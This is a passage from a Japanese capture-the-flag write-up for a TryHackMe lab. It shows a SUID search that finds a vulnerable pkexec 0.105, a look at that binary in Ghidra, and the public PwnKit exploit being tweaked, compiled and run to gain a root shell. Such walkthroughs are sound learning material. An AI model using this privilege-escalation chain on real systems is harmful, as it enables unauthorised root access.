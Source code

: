 ```shell
red@red:~$ cat flag2
cat flag2
THM{............................}
```

フラグ２ゲット。  
切断の回避はできなかったが、redのシェルをとれたのでOK。

## 権限昇格

```shell
$ find / -perm -u=s -type f -ls 2>/dev/null
   418507     32 -rwsr-xr-x   1 root     root        31032 Aug 14  2022 /home/red/.git/pkexec
```

/home/red/.git/pkexec に SUIDが付いている。

単純に実行すると、下記エラー。

```shell
red@red:~/.git$ pkexec
pkexec must be setuid root
```

ghidraで見ると、euid（実行ユーザーID）が0でなければこのエラーになる。

```c
  local_2210._0_4_ = geteuid();
  if ((uint)local_2210 == 0) {
```

version は 0.105

```c
g_print("pkexec version %s\n","0.105")
```

Web検索すると、このバージョンのpkexecにはローカル権限昇格の脆弱性がある。

https://github.com/ly4k/PwnKit

Cソースコードの下記部分だけ修正。

```c
    execve("/home/red/.git/pkexec", args, env);
```

コンパイル

```shell
$ gcc -shared PwnKit.c -o PwnKit -Wl,-e,entry -fPIC
```

アップロードして実行。

```shell
red@red:~/.git$ chmod +x ./PwnKit 
red@red:~/.git$ ./PwnKit
root@red:/home/red/.git# id
uid=0(root) gid=0(root) groups=0(root),1001(red)
```
